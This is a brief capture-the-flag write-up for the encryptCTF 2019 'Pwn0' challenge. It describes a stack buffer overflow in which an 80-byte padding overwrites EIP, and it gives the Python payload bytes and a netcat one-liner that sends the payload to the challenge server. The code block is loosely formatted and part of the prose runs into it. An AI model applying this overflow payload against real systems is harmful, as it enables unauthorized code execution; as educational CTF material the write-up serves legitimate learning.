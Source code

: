 # Pwn0

![pwn0_chall](../IMG/pwn0_chall.png)

It's just a programme which ask : "How's the josh?" and answer : "Your josh is low! Bye!"

If we put many number we got : 

![pwn0_proof1](../IMG/pwn0_proof1.png)

![pwn0_proof2](/home/taiqui/Documents/WriteUp/encryptCTF_april_2019/IMG/pwn0_proof2.png)

so at index 80, we overwrite EIP registers.

so we have our offset, need what's inject !

in disassemble main programme, we can see :

![pwn0_proof3](../IMG/pwn0_proof3.png)

so we just call the **movl** previous instruction.

so our injection seems like : 

```python
offset = "A"*80
payload = "\x57\x85\x04\x08"
```

```bash
python -c 'print offset+payload'|nc 104.154.106.182:1234
and get the flag !
![pwn0_proof4](../IMG/pwn0_proof4.png)























```